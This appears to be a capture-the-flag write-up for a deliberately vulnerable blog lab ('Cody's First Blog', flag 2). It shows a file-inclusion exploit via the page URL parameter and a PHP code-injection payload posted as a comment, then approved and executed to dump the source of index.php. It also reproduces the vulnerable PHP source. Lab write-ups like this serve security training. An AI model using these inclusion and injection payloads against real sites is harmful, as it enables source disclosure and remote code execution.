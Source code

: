 # Cody's First Blog - FLAG2

## 0x00 Modifiy URL Parameter

Try modify the url

http://127.0.0.1/xxxxxxxxxx/?page=admin.inc

To

http://127.0.0.1/xxxxxxxxxx/?page=index

The error shows

```
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 16384 bytes) in /app/index.php on line 20
```

So it will append **.php** at the end and execute the file.

## 0x01 SSRF / Inclusion Bug

http://127.0.0.1/xxxxxxxxxx/?page=http://localhost/index

Both the XSS and phpinfo() injection executed properly.

But still no flag.

![](./imgs/ssrf.jpg)

## 0x02 Read File

Add a new comment to read index.php.

``` php
<?php echo readfile("index.php")?>
```

And approve it in admin page.


![](./imgs/approve.jpg)

## 0x03 FLAG

Press **F12** to check the source again.

![](./imgs/flag.jpg)

http://{ctf}/?page=http://127.0.0.1/index will execute the php we've written and approved in the comments! 

It print out the whole index.php file.

```php
<?php
	// ^FLAG^{FLAG2}$FLAG$
	mysql_connect("localhost", "root", "");
	mysql_select_db("level4");
	$page = isset($_GET['page']) ? $_GET['page'] : 'home.inc';
	if(strpos($page, ':') !== false && substr($page, 0, 5) !== "http:")
		$page = "home.inc";

	if(isset($_POST['body'])) {
		mysql_query("INSERT INTO comments (page, body, approved) VALUES ('" . mysql_real_escape_string($page) . "', '" . mysql_real_escape_string($_POST['body']) . "', 0)");
		if(strpos($_POST['body'], '<?php') !== false)
			echo '<p>^FLAG^{FLAG1}$FLAG$</p>'; 
?>
```
